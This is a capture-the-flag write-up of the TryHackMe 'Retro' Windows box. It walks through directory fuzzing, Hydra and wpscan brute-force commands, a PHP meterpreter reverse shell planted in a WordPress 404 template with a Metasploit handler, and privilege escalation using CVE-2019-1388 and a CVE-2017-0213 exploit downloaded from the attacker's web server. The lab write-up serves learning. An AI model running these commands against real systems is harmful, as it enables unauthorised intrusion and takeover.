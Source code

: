 **Note: I had significant issues working through this box, as the connection would frequently be dropped. I'm not sure if this is because I was using Kali through VMware. I ended up switching to the built-in Kali box on TryHackMe, which seemed to help.**

A quick nmap scan reveals that ports 80 and 3389 are open.
 
![89a228305530310cf47a347e88c772d6.png](/Retro/_resources/89a228305530310cf47a347e88c772d6-1.png)
 
Investigating the web server reveals nothing immediate. We search for directories using FFUF.

```bash
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u http://10.10.18.117/FUZZ -c -t 100 -v
```

A brief explanation of the flags/switches used:
- `-w` specifies the path to the wordlist.
- `-u` specifics the URL, where `FUZZ` indicates the place we should fuzz.
- `-t` specifies the number of threads to use. The default is 40.
- `-v` gives verbose output.
- `-c` makes the output colourful.

Eventually, we find the `/retro` directory. Navigating to this page leads us to a retro gaming blog. We immediately find a username and a link to a login form.
 
![255ae2347532f8812a96a306e85abd34.png](/Retro/_resources/255ae2347532f8812a96a306e85abd34-1.png)

![4fabd57edbd6ee6aa7dc61e507b6ad34.png](/Retro/_resources/4fabd57edbd6ee6aa7dc61e507b6ad34-1.png)

![5c85610d77a5eb7ee447edf631030b53.png](/Retro/_resources/5c85610d77a5eb7ee447edf631030b53-1.png)
 
We also find a blog post revealing some potentially useful information.
 
![93d50d680dfdfbd493a3f64db5ffc33e.png](/Retro/_resources/93d50d680dfdfbd493a3f64db5ffc33e-1.png)
 
At bit of Googling tells us that the name of the avatar that Wade keeps mistyping is referring to is `parzival`.  This turns out to be the password, we we use to log in to Wade's WordPress account.
 
![9907cd4592502321e25444748f8c1952.png](/Retro/_resources/9907cd4592502321e25444748f8c1952-1.png)
 
If we didn't have access to the information given away by Wade, we would have to use Hydra to brute force the login. We already have a possible username, so let's submit the login request to Burp to capture the body of the POST request. Our Hydra command looks like:

```bash
hydra -l Wade -P /usr/share/wordlists/rockyou.txt 10.10.18.117 http-post-form "/retro/wp-login.php:log=^USER^&pwd=^PASS^:The password you entered" -v
```

(At this point, it seems that my machine died. Terminating and trying a new one.)

Hydra doesn't seem to be working here, as the connection seems to time out. Let's try wpscan.

`wpscan --url http://10.10.127.19/retro/wp-login.php -U Wade -P /usr/share/wordlists/rockyou.txt
`

This also doesn't seem to work. Luckily, we already have the password!

<br>

# Exploitation

Now that we have access to Wade's Wordpress account, let's try and use the WordPress theme editor to edit the 404 Template and upload a reverse shell.
 
![5683c9ad5042de27f889314759a5ad02.png](/Retro/_resources/5683c9ad5042de27f889314759a5ad02-1.png)
 
We will edit the 404 Template; our goal is to upload a reverse shell using this editor in order to get command execution of the underlying machine. Set up a netcat lister with `rlwrap nc -lvnp 9999`. Let's use [Pentestmonkey's php reverse shell script](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php). This is what we'll do. Make the appropriate changes to the script, update the 404 Template file, and navigate to any invalid url on the webpage. The reverse shell tries to launch, but we encounter an error.
 
![d93a8e9449266c751dabafddae677f8d.png](/Retro/_resources/d93a8e9449266c751dabafddae677f8d-1.png)

![6ae90c35a0451cc58796d62cda3930bc.png](/Retro/_resources/6ae90c35a0451cc58796d62cda3930bc-1.png)
 
Some Googling tells us that we're not the first to encounter this error. Thankfully, the explanation is simple.
 
![99aeceb1a7c252ee0fa0338c6361e335.png](/Retro/_resources/99aeceb1a7c252ee0fa0338c6361e335-1.png)
 
We could also try using a [php reverse shell for Windows machines](https://github.com/Dhayalanb/windows-php-reverse-shell), but this didn't work for me either.

Let's instead try using a php reverse shell payload generated by msfvenom.
```bash
msfvenom -p php/meterpreter/reverse_tcp LHOST=10.6.30.43 LPORT=9999 -f raw
```

Now copy and paste the raw output into the 404 template and update the file.
 
![7ca759846f47cf684397cfa3868ea91d.png](/Retro/_resources/7ca759846f47cf684397cfa3868ea91d-1.png)
 
Before proceeding, we set up a handler with Metasploit as follows:
```bash
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set payload payload/php/meterpreter/reverse_tcp
payload => php/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 10.6.30.43
LHOST => 10.6.30.43
msf6 exploit(multi/handler) > set LPORT 9999
LPORT => 9999
msf6 exploit(multi/handler) > run
```

Now send the reverse shell by triggering the 404. Meterpreter catches the reverse shell, and we have an initial foothold.
 
![011e8b21d3b0f57071380f0fcbb53c55.png](/Retro/_resources/011e8b21d3b0f57071380f0fcbb53c55-1.png)
 
At this point, the Meterpreter shell did not do much for me; basic commands like `cd` would often fail. This held true even after switching to the Kali instance on THM.

Luckily, there is another method for gaining initial access into the system. Recall that port 3389 was also open, so we may be albe to RDP into the Windows machine. Using `xfreerdp /u:wade /v:10.10.100.184` and inputting Wade's password get's us in. The `user.txt` flag is on the desktop.
 
![b5bd1fb1040d70714f3896ff0e8fdb32.png](/Retro/_resources/b5bd1fb1040d70714f3896ff0e8fdb32-1.png)
 
<br>

# Post-exploitation

(Note: I had a lot of issues reliably connecting to the Windows machine; this made RDPing a lot more painful that it should have been, and I had to reset the box a few times. I'm not sure if this is a me-problem or a THM-problem.)

Now that we have initial access, let's see if we can gain Administrator access. Looking around a bit, we see that the page to [CVE-2019-1388](https://nvd.nist.gov/vuln/detail/CVE-2019-1388) has been bookmarked in Chrome. This is a Windows Certificate Dialog Elevation of Privilege Vulnerability. Information on how to exploit this vulnerability can be found [here](https://justinsaechao23.medium.com/cve-2019-1388-windows-certificate-dialog-elevation-of-privilege-4d247df5b4d7). A brief summary is also given [here](https://github.com/nobodyatall648/CVE-2019-1388).

To start, we download an executable from [Packet Storm](https://packetstormsecurity.com/files/14437/hhupd.exe.html). Note that this file is also found in the Windows machine's recycling bin.
 
![0837d857d7a2c05ebf8c90db2ffceb19.png](/Retro/_resources/0837d857d7a2c05ebf8c90db2ffceb19-1.png)
 
We need to transfer this file to the target system. Let's set up a web server on our machine with `python -m http.server`.
 
![97fb80da01626337a3300a2937f90c8f.png](/Retro/_resources/97fb80da01626337a3300a2937f90c8f-1.png)

Now run the .exe file as Administrator.

![f956e29aca544a77575e2620eaadcaad.png](/Retro/_resources/f956e29aca544a77575e2620eaadcaad-1.png)

![374876b3445d9626281cee1dbf695611.png](/Retro/_resources/374876b3445d9626281cee1dbf695611-1.png)
 
Here is where I ran into a problem -- the "Issued By" URL needs a default app or browser in order to open. Even after setting a default browser and running through the above steps again, I am not given an option to open the URL. As you can see, the "OK" button remains greyed out:
 
![f24307e975a46e04b5cdc04866457dba.png](/Retro/_resources/f24307e975a46e04b5cdc04866457dba-1.png)
 
At this point, I knew what I had to do but there doesn't seem to be a way to proceed. This issue has been mentioned by many users on the TryHackMe Discord, but I wasn't able to find a solution. The intended path is the following: After opening the "Issued By" URL, we wait for the site to fully load and open a prompt to save the webpage using "Save As". Within this file explorer, we type `C:\WINDOWS\system32\cmd.exe` into the file name bar. This will open a command prompt with root privileges, which we can then use to find the last flag.

Since we're stuck (again), we'll try one last method to get root. Specifically, we're going to use a kernel exploit. Opening the command prompt and using `systeminfo` gives us some information about the Windows build and OS.
 
![66a6c5d935e4ede2a845203c46db7104.png](/Retro/_resources/66a6c5d935e4ede2a845203c46db7104-1.png)
 
Some [research](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md#eop---kernel-exploitation) reveals that our build of Windows is affected by [CVE-2017-0213](https://nvd.nist.gov/vuln/detail/CVE-2017-0213), a vulnerability which will allow us to run a kernel exploit and elevate our privileges. A bit of Googling reveals an [exploit](https://github.com/eonrickity/CVE-2017-0213) that we can use. We can confirm that our Windows build is on the list of affected products.
 
![95c14046e1fc85b4f4e2964bbc4711d0.png](/Retro/_resources/95c14046e1fc85b4f4e2964bbc4711d0-1.png)
 
We download the x64 executable to our local machine, host a web server, and download the file on the target. Executing the file gives us a cmd prompt with root access.
 
![9aaeee6dfb96e542ac51e35f643d9bae.png](/Retro/_resources/9aaeee6dfb96e542ac51e35f643d9bae-1.png)
 
Navigating to the Administrator's desktop, we finally find the root flag.
 
![bde4be03ccfeda0354de697ed8934d6c.png](/Retro/_resources/bde4be03ccfeda0354de697ed8934d6c-1.png)